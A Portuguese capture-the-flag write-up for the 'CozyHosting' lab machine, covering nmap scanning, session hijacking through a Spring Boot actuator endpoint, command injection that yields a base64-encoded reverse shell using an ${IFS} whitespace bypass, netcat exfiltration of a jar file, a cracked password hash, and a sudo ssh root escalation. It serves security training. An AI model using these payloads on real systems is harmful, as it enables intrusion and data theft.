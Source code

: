 # Writeup cozyhosting

## Scan
```
Nmap scan report for 10.129.229.88
Host is up (0.22s latency).
Not shown: 65055 closed tcp ports (reset), 478 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Uptime guess: 12.529 days (since Sat Dec 23 06:21:14 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   220.98 ms 10.10.14.1
2   221.24 ms 10.129.229.88

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 19:02:25 2024 -- 1 IP address (1 host up) scanned in 362.52 seconds
```

## Enumeration & Exploitation

  Após o scan, começamos a enumerar a máquina. É possível encontrar uma página chamada "login" no fuzzing.

![](ss/login_page.png)

  Após um tempo de busca, foi encontrado um path do springboot chamado "actuator" utilizando o nuclei.

![](ss/nuclei.png)

  Com o path encontrado, conseguimos enconntrar o endpoint "http://cozyhosting.htb/actuator/sessions" que possui um token de sessão do usuário "Kanderson". Podemos utilizar esse token para fazer Session Hijacking e acessar o painel de login.

![](ss/token.png)

![](ss/logado.png)

  Logado no painel, podemos identificar uma feature de conexão ao ssh. Podemos utilizar esse feature para executar comandos (Command Injection).

![](ss/command.png)

  Descoberto a vulnerabilidade de command injection, podemos utilizá-la para pegarmos reverse shell.
  O host possui bloqueio contra espacos em branco e, depois de uma pesquisa, foi descoberto como dar bypass --> https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces  
  Tendo descoberto o bypass, foi utilizado o payload generator para criar um payload encodado em b64.

Payload:
```
$(echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjExLzEyMzQgMD4mMQ=="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash)
```

  Com isso, é possível obter shell reversa e ter acesso ao host.

![](ss/shell.png)

  Com a reverse shell, podemos identificar um arquivo chamado "cloudhosting-0.0.1.jar" no diretorio "app".  
  Utilizamos o netcat para mandar o arquivo para nossa máquina usando netcat (nc 10.10.14.211 7777 < cloudhosting-0.0.1.jar) para podermos analisá-lo usando o jadx.  
  Após uma análise, é possível encontrar o usuário e senha do banco de dados.

![](ss/password_db.png)

  Com o usuário e senha do banco de dados, é possível logar no banco e encontrar uma hash de senha para um usuário chamado "admin".  
  Utilizamos o https://hashes.com/en/decrypt/hash para decryptar o hash e logar via ssh no usuário "josh".

**Hash:** $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
**Password:** manchesterunited

![](ss/ssh.png)

## Privilege Escalation

  Após logar com o usuário "josh", podemos utilizar o comando **sudo -l** e ver que ele possi permissão de execucao do ssh.  
  Utilizamos o https://gtfobins.github.io/gtfobins/ssh/#sudo para pegar shell como root.

![](ss/root.png)
